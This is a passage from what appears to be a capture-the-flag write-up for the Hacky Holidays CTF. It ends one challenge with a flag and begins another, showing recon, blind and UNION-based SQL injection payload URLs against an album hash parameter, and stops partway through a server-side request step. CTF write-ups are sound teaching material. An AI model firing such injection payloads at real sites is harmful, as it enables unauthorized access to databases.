 This created a new admin user having username and password equals to BYYYYYYYYYYYYYY.
Accessing the login panel using those credentials returned the flag and a link to the next challenge.

{F1140383}

Flag: flag{99309f0f-1752-44a5-af1e-a03e4150757d}

#Challenge 11 (Welcome to the inception dream)
Challenge 11 was accessible by browsing https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59. The challenge contained a list of albums with some pics and a login form. This challenge was very hard and required multiple steps to be fully exploited. 

{F1140384}

1 - Initial recon
An initial recon on the r3c0n_server_4fdk59/ endpoint with Burp "Content Discovery" allowed me to discover the /api endpoint. 

{F1140385}

However, the webserver returned the following error message when trying to access to an API. 

```
{"error":"This endpoint cannot be visited from this IP address"}
```

2 - SQL Injection hash parameter
The hash parameter in https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash= was vulnerable to a Blind AND SQL Injection vulnerability. The following test confirms the vulnerability:
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27%20AND%204127=4127%20AND%20%27hIVa%27=%27hIVa

{F1140386}

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27%20AND%204127=4127%20AND%20%27hIVa%27=%27test

{F1140387}

Also, a UNION payload is feasible to exploit the vulnerability
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-8783%27%20UNION%20ALL%20SELECT%20NULL,NULL,database()--%20-

{F1140388}

However dumping the data with SQLMAP did not return anything useful

{F1140389}

3 - SQL Injection Inception
Finally, I discovered that in order to successfully call the API, it was necessary to forge an appropriate request directly from the webserver. The images available on the web application were generated from the webserver using a secret hash.

{F1140390}

By tampering the image parameter with a custom endpoint, the following error message was returned by the webserver.
